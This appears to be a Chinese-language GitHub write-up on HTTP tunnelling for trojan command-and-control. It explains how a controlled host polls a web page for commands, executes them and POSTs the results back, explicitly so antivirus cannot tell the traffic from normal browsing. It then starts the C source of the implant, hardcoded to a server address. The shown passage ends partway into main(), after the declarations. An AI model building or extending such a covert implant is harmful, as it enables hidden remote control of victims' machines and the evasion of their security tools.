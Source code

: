 # HTTP Tunnel  

--------------------------------------  

### 0x00 前言  
HTTP隧道技术就是把所有要传送的数据全部封装到HTTP协议里进行传送。这样控制端访问服务器端的80端口，并且使用的HTTP协议，杀软就很难分辨出是正常的访问网页还是木马在进行通信了。

### 0x01 正文  
#### 主要思路：

1. 利用socket通信，将发的数据通过HTTP协议进行封装，实现HTTP隧道传输。
2. 要使用HTTP隧道，那肯定要用被控端去连接控制端了，即端口反弹。
3. 被控端在开始运行后，每隔一段时间去访问一下服务器的某一个页面，在该页面上存储需要执行的命令。
4. 被控端读取到命令后，进行执行，然后将执行的结果封装成一个HTTP包(最好是POST的，因为GET型的对数据的长度有限制)，然后访问服务器的接收执行结果的页面，服务器将执行结果记录下来。
5. 在实际应用中，可以自行写一个Web服务器端，更灵活的管理和控制。


### 0x02 代码  
这里贴一下控制端`Main.c`的代码，服务端是使用的wamp环境，若有必要的时候，可以自行写一个Web服务器端，这样控制更灵活嘛。(`index.html`和`index.php`见附件。

	/**
	 * Description: HTTP Tunnel demo, this is execute command.
	 * Author: xx
	 * Version: 1.0
	 * Time: 2017.4.11
	 */

	#include <stdio.h>
	#include <WinSock2.h>
	#pragma comment(lib, "ws2_32.lib")

	#define BUFSIZE 2048

	const char server[] = "10.211.55.5";
	const int port = 80;
	const char getCommandBuf[] = "";
	const char executeResultBuf[] = "";

	int establishConn(SOCKET* sServer, SOCKADDR_IN* servAddr);
	int sendBuf(SOCKET sServer, const char* buffer);
	int receiveBuf(SOCKET sServer, char* command);
	int exeCommandFunction(char* cmd, char* result);
	int urlEncode(char* result);

	int main(int argc, char* argv[]) {
		WSADATA wsaData;
	
		SOCKET sServer;
		SOCKADDR_IN servAddr;

		char buffer[BUFSIZE] = {0};
		char command[BUFSIZE] = {0};
		char result[BUFSIZE] = {0};
		int retVal = 0;
